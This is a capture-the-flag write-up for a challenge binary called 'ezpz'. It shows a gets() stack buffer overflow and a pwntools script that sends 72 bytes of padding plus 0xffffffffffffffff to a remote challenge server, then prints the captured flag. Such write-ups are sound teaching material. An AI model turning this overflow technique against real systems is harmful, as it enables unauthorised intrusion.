 First things first, lets check file protections

```sh
checksec --file ezpz
```

![alt text](image.png)

Its using `gets()` so we have buffer overflow

Lets look at decompiled code

![alt text](image-1.png)

It is comparing local variable value to `0xffffffffffffffff`, now we need to find where this local variable is in the memory and overwrite its value

Lets check decompiled code of main function

![alt text](image-2.png)

And the the value at `rbp-0x8` is being compared to `0xffffffffffffffff`

So rbp-0x8 is the var_10h variable that we saw in decompiled code and it is being compared to the value 0xffffffffffffffff
Since we have buffer overflow we can overwrite the location rbp-0x8

The offset to reach rip is 88 bytes which is rbp+0x8, so 88 bytes to reach return address, below it(stack grows downwards) is the rbp so at offset of 80 bytes and then is rbp-0x8 at offset of 72 bytes, so lets create a solve script

```python
#!/usr/bin/env python3

from pwn import *

exe = './ezpz'
elf = context.binary = ELF(exe,checksec=False)
context.log_level='debug'

host,port = '165.227.103.166',6002

#p = process(exe)
p = remote(host,port)

padding = 72

param1 = 0xffffffffffffffff

payload = flat(
    asm('nop')*padding,#padding to reach EIP
    param1,
)

write("payload2",payload)
p.sendlineafter(b'proud?',payload)
p.interactive()
```

**_flag : CIT{pr0bably_t00_3azy_4_U_9920int3oksalfqFoi3b3ofiql7}_**
